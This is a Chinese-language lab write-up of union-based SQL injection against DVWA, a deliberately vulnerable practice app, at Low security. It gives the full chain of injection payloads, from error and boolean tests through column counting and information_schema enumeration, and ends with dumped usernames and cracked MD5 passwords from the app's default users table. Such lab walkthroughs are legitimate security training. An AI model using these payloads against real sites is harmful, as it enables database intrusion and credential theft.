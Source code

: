 +++
date = "2019-08-13T10:37:42+08:00"
categories = ["靶场"]
tags = ["DVWA","SQL注入"]


title = "SQL注入（Union注入）"
description = "GET - 有报错 - 单引号 - 字符型注入"
images = []

+++

- 漏洞类型：SQL注入/Get 字符型

- 安全级别：Low

- 目标：通过注入SQL语句，获取 MySql 数据库存放的用户名和密码

- 页面URL：http://www.dvwa.com/vulnerabilities/sqli/?id=1（本地搭建的靶场）

![正常页面](https://ae01.alicdn.com/kf/U4ef8e082a42c404f8be88e4db38b0ef33.png)

---

# 判断注入类型

#### 正常输入数字查询信息，下图为为输入3时，显示的信息。

![user id=3](https://ae01.alicdn.com/kf/Ua09c3083509142c0bd8eb5051a18ee5el.png)

#### 数字后面，加上单引号测试

> http://www.dvwa.com/vulnerabilities/sqli/?id=1'&Submit=Submit#

#### 得到报错，不过还不能确定是字符型，还是数字型注入。


> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1

#### 去掉 id=1 后的 “单引号” 继续用布尔值测试

布尔值

> ①：?id=1 and 1=1&Submit=Submit#
> 
> ②：?id=1 and 1=2&Submit=Submit#


在正常的查询语句后，加上**"and 1=1"**和**"and 1=2"**后，页面仍然正常显示，并正常查询出了用户基本信息

![1 and 1=1](https://ae01.alicdn.com/kf/U98a6416bef494ecb942db80ba1cb148cP.png)

如果是数字型注入，id=1 后拼接 “and 1=2”后， 页面应该显示异常，或者有报错信息。
![1 and 1=2](https://ae01.alicdn.com/kf/Ubde00ab900c145fd99b418351422885aB.png)

所以，基本确定，这是一个**字符型注入**，注入的语句，要采用闭合单引号方法，使之带入后端查询。

# 判断当前页面，读取表的字段数量


> ①：'+order by 3--+
> 
> ②：'+order by 4--+


#### order by 2：页面正常

![页面正常](https://images.weserv.nl/?url=https://img03.sogoucdn.com/app/a/100520146/8c97c2f5ef0dae6d74601e6629eeb1a1)

#### order by 3：页面异常，报错

![order by判断字段数](https://images.weserv.nl/?url=https://img02.sogoucdn.com/app/a/100520146/c26b54c4a6b4ec505140b13414829594)

# 确认信息在当前页面，显示的位置


> '+union select 1,2--+

![确认回显位置](https://ae01.alicdn.com/kf/Ucfc3c435aa4a4862820c36cd6044fbf1P.png)


> '+union select database(),version()--+

![查询数据库名、版本信息](https://ae01.alicdn.com/kf/U04cd6a2fa8c147fa9b8c5985bc618e76a.png)


# 读取当前页面，使用的数据库、表


> '+union+select table_schema,table_name
> from+information_schema.tables
> where+table_schema=database()--+


![库名、表名](https://ae01.alicdn.com/kf/U4165d5261666491fa520a4cfddadd0229.png)

# 读取users表的所有字段


> '+union select table_name,column_name 
from information_schema.columns 
where table_schema=database() and table_name='users'--+

![user表所有字段名](https://ae01.alicdn.com/kf/Ubeb6e448ad6e445eb82d6e2038fe79ab1.png)

我们看到了 “user”，“password” 字段，这两列里面，包含的内容这就是我们得目标了。

接下来就要从users表中，读取这两个字段得内容了。

# 读取用户名和密码


> ' union select user,password from dvwa.users--+


![用户名、密码](https://ae01.alicdn.com/kf/U405e22e37ac44aedb0ef8c48d1b5b9380.png)

密码被加密保存，目测（滑稽）md5加密

# 解密md5，得到登陆密码
> admin：5f4dcc3b5aa765d61d8327deb882cf99（password）
> 
> gordonb：e99a18c428cb38d5f260853678922e03（abc123）
> 
> 1337：8d3533d75ae2c3966d7e0d4fcc69216b（charley）
> 
> pablo：0d107d09f5bbe40cade3de5c71e9e9b7（letmein）
> 
> smithy：5f4dcc3b5aa765d61d8327deb882cf99（password）



# 总结

- 先看传输参数，是用的HTTP协议中的，那种传输方式
- 再判断是字符型还是数字型的注入，选择闭合或者其他方法，保证语句生效
- 确定网站页面信息的回显位置
- 构建SQL查询语句
- "+" 和 空格效果一样，但是在cookie注入时，用"+"代替空格